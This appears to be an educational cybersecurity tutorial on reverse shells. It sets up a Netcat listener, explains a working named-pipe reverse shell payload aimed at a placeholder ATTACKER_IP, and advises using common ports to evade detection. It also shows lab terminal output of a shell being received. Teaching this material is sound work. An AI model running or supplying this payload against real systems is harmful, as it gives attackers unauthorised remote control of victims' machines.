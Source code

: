 # Reverse Shell
A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

## How Reverse Shells Work
**Set up a Netcat (nc) Listener**
Let's now understand how a reverse shell works in a practical scenario using the tool Netcat. This utility supports multiple OSs and allows reading and writing through a network.

As mentioned above, a reverse shell will connect back to the attacker's machine. This machine will be waiting for a connection, so let's use Netcat to listen to a connection using the following command **`nc -lvnp 443`**.
```bash
🔴🟢🟡                        Terminal
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```
```bash
nc -lvnp 443
```

The command above uses the **`-l`** option to indicate Netcat to listen or wait for a connection. The **`-v`** option enables verbose mode. The **`-n`** option prevents the connections from using DNS for lookup, so it will not resolve any hostname it will use an IP address. Finally, the **`-p`** flag indicates the port that will be used to wait for the connection, in the case above, port **443**.

Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like **53, 80, 8080, 443, 139, or 445**. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.

**Gaining Reverse Shell Access**
Once we have our listener set, the attacker should execute what is known as a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network. There's a variety of payloads that will depend on the tools and OS of the compromised system. We can explore some of them here.

As an example, let's analyze an example payload named a pipe reverse shell, as shown below.

**`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`**
**Explanation of the Payload**

**`rm -f /tmp/f`** - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.  

**`mkfifo /tmp/f`** - This command creates a named pipe, or FIFO (first-in, first-out), at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.  

**`cat /tmp/f`** - This command reads data from the named pipe. It waits for input that can be sent through the pipe.  

**`| bash -i 2>&1`** - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring that error messages are sent back to the attacker.  

**`| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`** - This part pipes the shell's output through nc (Netcat) to the attacker's IP address (ATTACKER_IP) on the attacker's port (ATTACKER_PORT).  

**`>/tmp/f`** -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.  
The payload above can expose the shell **`bash`** through the network to the desired listener.

**Attacker Receives the Shell**  
Once the above payload is executed, the attacker will receive a **reverse shell**, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

**Attacker Terminal Output (Receiving Shell)**
```bash
🔴🟢🟡                        Terminal
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```
The output above shows the connection coming from the IP **`10.10.13.37`**, which is the IP address of the compromised target.
